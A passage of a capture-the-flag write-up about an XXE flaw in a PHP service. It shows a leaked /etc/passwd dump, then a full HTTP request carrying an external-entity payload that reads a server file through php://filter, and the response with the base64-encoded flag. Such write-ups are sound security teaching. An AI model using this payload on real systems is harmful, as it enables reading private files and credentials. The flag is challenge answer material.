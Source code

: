 ```
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/bin/false
nginx:x:100:101:Linux User,,,:/var/cache/nginx:/sbin/nologin
```
Now that we know it's vulnerable to XXE all we have to do is find and display the flag.


We send to following request to read the file containing the flag as base64 to avoid problem character for the xml parser:
```
POST / HTTP/1.1
Host: 95.179.163.167:12001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://95.179.163.167:12001/
Content-Type: application/xml
Content-Length: 173
Connection: close
Cookie: PHPSESSID=9cef815bea8ae2420273c0fbf61f3bcb

<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY internal SYSTEM 'php://filter/convert.base64-encode/resource=/var/www/html/flag.txt'>]>
<message>&internal;</message>
```

Response:
```
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 16 Dec 2018 21:28:05 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.2.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Content-Length: 99

Your wish: WC1NQVN7X1RoZV9FeDczcm5hbF9FbnQxdDEzJF9XNG43X1RvX19KbzFuXzdoZV9wNHI3eV9fNzAwX19fX19ffQo=
```
